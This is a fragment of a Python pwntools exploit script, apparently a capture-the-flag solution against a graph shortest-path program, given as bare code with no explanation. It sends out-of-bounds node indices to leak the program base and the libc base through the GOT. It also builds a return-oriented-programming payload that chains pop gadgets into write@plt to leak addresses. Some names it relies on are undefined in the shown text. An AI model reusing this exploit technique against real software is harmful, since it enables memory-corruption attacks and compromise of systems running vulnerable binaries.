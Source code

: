 ```python
libc_syscall = 0x066229
bss_addr = 0x0404000

write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']

payload = b"A"*0x38
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
sh.recvuntil(b"size?\n>> ")
sh.sendline(b'4')

sh.recvuntil(b"how many nodes?\n>> ")
sh.sendline(b'2')
sh.recvuntil(b"how many edges?\n>> ")
sh.sendline(b'0')
sh.recvuntil(b"you want to start from which node?\n>> ")
sh.sendline(b'0')
sh.recvuntil(b">> ")
sh.sendline(b'-2275')

sh.recvuntil(b"the length of the shortest path is ")
elf_base = int(sh.recv(15), 10) - 0x7008
success('elf_base=>' + hex(elf_base))

sh.recvuntil(b"how many nodes?\n>> ")
sh.sendline(b'2')
sh.recvuntil(b"how many edges?\n>> ")
sh.sendline(b'0')
sh.recvuntil(b"you want to start from which node?\n>> ")
sh.sendline(b'0')
sh.recvuntil(b">> ")
payload = bytes(str((elf.got['puts'] - elf.sym['dist']) // 8).encode('UTF-8'))
sh.sendline(payload)

sh.recvuntil(b"the length of the shortest path is ")
libc_base = int(sh.recv(15), 10) - libc.sym['puts']
success('libc_base=>' + hex(libc_base))
```


